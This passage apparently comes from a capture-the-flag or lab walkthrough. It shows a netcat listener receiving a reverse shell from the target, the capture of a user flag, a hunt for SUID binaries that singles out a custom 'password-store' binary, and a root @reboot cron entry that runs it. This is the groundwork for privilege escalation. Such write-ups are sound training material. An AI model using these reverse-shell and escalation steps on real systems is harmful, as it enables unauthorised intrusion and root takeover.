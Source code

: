 
We find our flag in user `charles`'s home dir:

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.199] from (UNKNOWN) [192.168.164.98] 53012
whoami
charles
pwd
/opt/zookeeper
cd /home/charles
ls
local.txt
cat local.txt
399e910d5aecc91538c2073495090194
```

Now its time for privilege escalation...

We check for unknown SUID binaries in `/usr/bin`:

```
ls -la /usr/bin | grep rws
-rwsr-xr-x  1 root root      55400 Mar  6  2019 bwrap
-rwsr-xr-x  1 root root      54096 Jul 27  2018 chfn
-rwsr-xr-x  1 root root      44528 Jul 27  2018 chsh
-rwsr-xr-x  1 root root      34896 Apr 22  2020 fusermount
-rwsr-xr-x  1 root root      84016 Jul 27  2018 gpasswd
-rwsr-xr-x  1 root root      51280 Jan 10  2019 mount
-rwsr-xr-x  1 root root      44440 Jul 27  2018 newgrp
-rwsr-xr-x  1 root root     154352 Mar 21  2019 ntfs-3g
-rwsr-xr-x  1 root root      63736 Jul 27  2018 passwd
-rws--x--x  1 root root      17024 Sep 10  2020 password-store
-rwsr-xr-x  1 root root      23288 Jan 15  2019 pkexec
-rwsr-xr-x  1 root root      63568 Jan 10  2019 su
-rwsr-xr-x  1 root root     157192 Feb  2  2020 sudo
-rwsr-xr-x  1 root root      34888 Jan 10  2019 umount
ls -la /usr/sbin | grep rws
-rwsr-xr--  1 root dip     386792 Feb 20  2020 pppd
```

Note: `password-store` is interesting, not a well-known binary

Check for cron jobs:

```
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
@reboot		root	/usr/bin/password-store
```